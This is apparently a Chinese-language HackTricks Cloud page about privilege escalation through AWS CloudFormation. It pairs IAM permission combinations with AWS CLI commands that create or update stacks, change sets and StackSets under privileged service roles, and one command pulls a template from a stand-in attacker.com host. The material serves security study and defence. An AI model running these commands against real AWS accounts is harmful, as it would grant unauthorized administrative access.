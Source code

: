 # AWS - Cloudformation Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## cloudformation

有关 cloudformation 的更多信息，请查看：

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

拥有这些权限的攻击者 **可以提升权限**，通过制作一个 **CloudFormation 堆栈**，使用托管在其服务器上的自定义模板，**以指定角色的权限执行操作：**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
在以下页面中，您有一个 **利用示例**，附加权限为 **`cloudformation:DescribeStacks`**：

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在影响：** 提升到指定的 cloudformation 服务角色。

### `iam:PassRole`，(`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

在这种情况下，您可以 **滥用现有的 cloudformation 堆栈** 来更新它并提升权限，如前面的场景所示：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 权限可以用来 **给自己 `UpdateStack` 权限** 以便对一个堆栈进行攻击。

**潜在影响：** 提升到指定的 cloudformation 服务角色。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

如果你拥有这个权限但 **没有 `iam:PassRole`**，你仍然可以 **更新使用的堆栈** 并滥用 **它们已经附加的 IAM 角色**。查看前面的部分以获取利用示例（只需在更新中不指明任何角色）。

`cloudformation:SetStackPolicy` 权限可以用来 **给自己 `UpdateStack` 权限** 以便对一个堆栈进行攻击。

**潜在影响：** 提升到已经附加的 cloudformation 服务角色。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

拥有 **传递角色和创建 & 执行 ChangeSet** 权限的攻击者可以 **创建/更新一个新的 cloudformation 堆栈，滥用 cloudformation 服务角色**，就像使用 CreateStack 或 UpdateStack 一样。

以下利用是 **变体**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack)，使用 **ChangeSet 权限** 来创建一个堆栈。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 权限可以用来 **给自己 `ChangeSet` 权限** 以便对一个堆栈执行攻击。

**潜在影响：** 提升到 cloudformation 服务角色的权限。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

这与之前的方法类似，不需要传递 **IAM 角色**，所以你可以 **滥用已经附加的角色**，只需修改参数：
```
--change-set-type UPDATE
```
**潜在影响：** 提升到已附加的 cloudformation 服务角色。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻击者可以滥用这些权限来创建/更新 StackSets，以滥用任意 cloudformation 角色。

**潜在影响：** 提升到 cloudformation 服务角色。

### `cloudformation:UpdateStackSet`

攻击者可以在没有 passRole 权限的情况下滥用此权限来更新 StackSets，以滥用附加的 cloudformation 角色。

**潜在影响：** 提升到附加的 cloudformation 角色。

## 参考

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

